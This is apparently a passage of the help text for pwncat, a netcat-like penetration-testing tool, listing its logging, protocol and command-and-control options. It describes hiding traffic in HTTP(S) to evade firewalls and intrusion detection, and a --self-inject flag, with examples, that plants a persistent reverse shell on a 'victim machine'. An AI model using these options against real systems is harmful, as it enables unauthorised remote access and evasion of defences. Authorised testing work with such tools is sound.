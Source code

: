    -v, --verbose         Be verbose and print info to stderr. Use -v, -vv, -vvv
                         or -vvvv for more verbosity. The server performance will
                         decrease drastically if you use more than three times.
                         
   --info type           Show additional info about sockets, IPv4/6 or TCP opts
                         applied to the current socket connection. Valid
                         parameter are 'sock', 'ipv4', 'ipv6', 'tcp' or 'all'.
                         Note, you must at least be in INFO verbose mode in order
                         to see them (-vv).
                         
   -c str, --color str   Colored log output. Specify 'always', 'never' or 'auto'.
                         In 'auto' mode, color is displayed as long as the output
                         goes to a terminal. If it is piped into a file, color
                         will automatically be disabled. This mode also disables
                         color on Windows by default. (default: auto)
                         
   --safe-word str       All modes:
                         If pwncat is started with this argument, it will shut
                         down as soon as it receives the specified string. The
                         --keep-open (server) or --reconn (client) options will
                         be ignored and it won't listen again or reconnect to you.
                         Use a very unique string to not have it shut down
                         accidentally by other input.
 
 protocol arguments:
   -4                    Only Use IPv4 (default: IPv4 and IPv6 dualstack).
                         
   -6                    Only Use IPv6 (default: IPv4 and IPv6 dualstack).
                         
   -u, --udp             Use UDP for the connection instead of TCP.
                         
   -T str, --tos str     Specifies IP Type of Service (ToS) for the connection.
                         Valid values are the tokens 'mincost', 'lowcost',
                         'reliability', 'throughput' or 'lowdelay'.
                         
   --http                Connect / Listen mode (TCP and UDP):
                         Hide traffic in http packets to fool Firewalls/IDS/IPS.
                         
   --https               Connect / Listen mode (TCP and UDP):
                         Hide traffic in https packets to fool Firewalls/IDS/IPS.
                         
   -H [str ...], --header [str ...]
                         Add HTTP headers to your request when using --http(s).
 
 command & control arguments:
   --self-inject cmd:host:port[s]
                         Listen mode (TCP only):
                         If you are about to inject a reverse shell onto the
                         victim machine (via php, bash, nc, ncat or similar),
                         start your listening server with this argument.
                         This will then (as soon as the reverse shell connects)
                         automatically deploy and background-run an unbreakable
                         pwncat reverse shell onto the victim machine which then
                         also connects back to you with specified arguments.
                         Example: '--self-inject /bin/bash:10.0.0.1:4444'
                         It is also possible to launch multiple reverse shells by
                         specifying multiple ports.
                         Via list:  --self-inject /bin/sh:10.0.0.1:4444,4445,4446
                         Via range: --self-inject /bin/sh:10.0.0.1:4444-4446
                         Via incr:  --self-inject /bin/sh:10.0.0.1:4444+2
                         Note: this is currently an experimental feature and does
                         not work on Windows remote hosts yet.
 